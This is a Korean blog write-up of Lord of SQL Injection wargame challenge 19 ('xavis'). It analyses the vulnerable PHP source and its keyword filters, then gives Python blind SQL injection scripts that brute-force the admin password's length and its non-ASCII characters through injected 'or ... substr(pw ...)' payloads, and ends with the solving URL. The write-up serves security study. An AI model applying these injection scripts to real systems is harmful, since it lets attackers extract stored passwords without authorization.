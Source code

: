```yaml
---
title: Lord of SQL Injection Write Up No.19 Xavis
date: 2019-09-14 20:31:35
updated:
categories:
  - Write Up
tags:
  - Lord of SQL Injection
  - Infosec
---
```


## 개요

{% img /image/los-main.png 300 %}

SQL Injection에 대한 지식을 쌓기 위해 [Lord of SQL Injection 사이트](https://los.eagle-jump.org/)의 문제를 풀고 해답을 정리한다.

이 문서에서는 Lord of SQL Injection 19번 xavis 문제에 대하여 정리한다.

<!-- more -->

## 문제 분석

### 문제 출제 의도

ASCII 코드 범위에 포함되지 않는 문자를 대상으로 Blind SQL Injection을 하여 `pw`를 알아낼 수 있는지 확인한다.

### 소스 코드 분석

xavis 문제의 php 소스 코드는 다음과 같다.

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis");
  highlight_file(__FILE__);
?>
```

#### Filter

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe");
```

- GET 방식으로 `pw`를 받고, `pw`에 `prob`, `_`, `.`, `()`, `#`, `-` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.
- 또한, `pw`에 `regex`, `like` 가 들어 있으면 `HeHe`가 뜨고 문제 풀이에 실패한다.

#### Query

```php
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis");
```

- 받은 `pw`가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.
- `$result['id']`에 "0"을 제외한 어떤 값이든 들어 있으면 응답에 `"Hello "`와 `$result[id]` 값을 붙인 문자열이 포함된다.
- 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 `pw`와 GET 방식으로 전달받은 `pw`가 같음'이다. 즉, 실제 데이터베이스에 저장된 `pw`를 알아내서 전달해야 한다.

## Solution

1. pw의 범위 확장

   이 문제는 얼핏 보면 지금까지의 Blind SQL Injection 문제들과 거의 동일하다.
   따라서 지금까지의 문제들을 해결하는 데 이용한 Python 코드를 그대로 활용해서 문제 풀이를 시도해 볼 수 있다.

   ```python
   import urllib.request
   from urllib.parse import quote

   key = ""

   pwlen = 0

   for i in range(1, 50): # 20까지 시도로 찾아지지 않아서 50으로 늘림
       url = "http://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw="
       data = "' or id='admin' and length(pw)='{}'#".format(str(i))
       print(data)
       data = quote(data)
       re = urllib.request.Request(url + data)

       re.add_header(
           "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
       re.add_header(
           "Cookie", "PHPSESSID=jtkacptqj14heqvtcuofma30m2"
       )

       req = urllib.request.urlopen(re)

       if str(req.read()).find("Hello admin") != -1:
           pwlen = i
           print('pw length : ' + str(pwlen))
           break

   for i in range(1, pwlen + 1):
       for j in range(32, 127):
           url = "http://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw="
           data = "' or id='admin' and substr(pw, 1, {})='{}'#".format(
               str(i), key + chr(j))
           print(data)
           data = quote(data)
           re = urllib.request.Request(url + data)

           re.add_header(
               "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
           re.add_header(
               "Cookie", "PHPSESSID=jtkacptqj14heqvtcuofma30m2"
           )

           req = urllib.request.urlopen(re)

           if str(req.read()).find("Hello admin") != -1:
               key += chr(j).lower()
               print(key)
               break
   print(key)
   ```

   이때, 패스워드는 40바이트라는 것을 알아낼 수 있으나 두번째 루프에서 패스워드를 찾지 못하는 것을 알 수 있다.
   이로 화면에 표현할 수 있는 아스키 코드의 범위인 32에서 126까지 범위에 패스워드가 들어있지 않음을 추측할 수 있다.
   따라서 코드를 수정한다.

   ```python
   import urllib.request
   from urllib.parse import quote

   key = ""
   hexcode = "0x"

   pwlen = 40

   for i in range(1, pwlen + 1):
       for j in range(32, 1000):  # 범위 확장
           url = "http://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw="
           data = "' or id='admin' and ord(substr(pw, {}, 1))='{}'#".format(
               str(i), str(j))
           print(data)
           data = quote(data)
           re = urllib.request.Request(url + data)

           re.add_header(
               "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
           re.add_header(
               "Cookie", "PHPSESSID=jtkacptqj14heqvtcuofma30m2"
           )

           req = urllib.request.urlopen(re)

           if str(req.read()).find("Hello admin") != -1:
               key += chr(j)
               hexcode += hex(j)[2:]
               print('key : ' + key)
               print('hex : ' + hexcode)
               break
   print(key)
   ```

   이러한 코드를 실행하면 결과값으로 `0xb8f9c5b0c6d0c4a1a4bb` 를 출력한다.
   이를 Unicode 문자로 변환한 `¸ùÅ°ÆÐÄ¡¤»`를 GET 방식으로 `pw`의 값으로 전달하면 풀린다.

   ```url
   http://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw=¸ùÅ°ÆÐÄ¡¤»
   ```
